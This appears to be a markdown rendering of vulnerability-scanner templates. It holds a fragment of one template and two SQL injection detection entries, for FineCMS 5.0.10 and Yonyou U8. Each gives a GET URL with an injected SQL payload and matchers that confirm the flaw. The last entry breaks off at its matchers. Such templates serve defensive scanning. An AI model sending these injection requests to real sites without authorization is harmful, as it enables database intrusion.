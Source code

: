 ### Matchers

**Type - status**
- status
    1. 200

**Type - word**
- words
    1. {{md5({{num}})}}
- part - body

---
# FineCMS 5.0.10 - SQL Injection
## Description
- FineCMS 5.0.10 contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - finecms,sqli
## Requests
- Method - GET
### URL
- {{BaseURL}}/index.php?c=api&m=data2&auth=582f27d140497a9d8f048ca085b111df&param=action=sql%20sql=%27select%20md5({{num}})%27
### Matchers

**Type - word**
- words
    1. {{md5({{num}})}}

---
# Yonyou U8 - SQL Injection
## Description
- Yonyou U8 contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - yonyou,oa,sqli
## Requests
- Method - GET
### URL
- {{BaseURL}}/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20md5({{num}}))
### Matchers
